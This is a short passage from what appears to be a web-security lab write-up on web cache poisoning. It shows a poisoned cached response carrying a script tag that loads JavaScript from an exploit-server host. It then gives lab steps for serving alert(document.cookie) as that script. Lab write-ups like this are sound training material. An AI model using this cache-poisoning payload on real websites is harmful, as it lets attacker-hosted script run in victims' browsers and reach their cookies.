 And later when the victim makes the request to the `GET /`, they'll get the response from the poisoned cache which includes:
```bash
<script type="text/javascript" src="//exploit-id.exploit-server.net/resources/js/tracking.js"></script>
```
This will make the victim make a request to the exploit server

Lab specific: on the exploit server we need to change the response body to: alert(document.cookie) and the url endpoint (which is called File) to /resources/js/tracking.js

### Using web cache poisoning to exploit DOM-based vulnerabilities


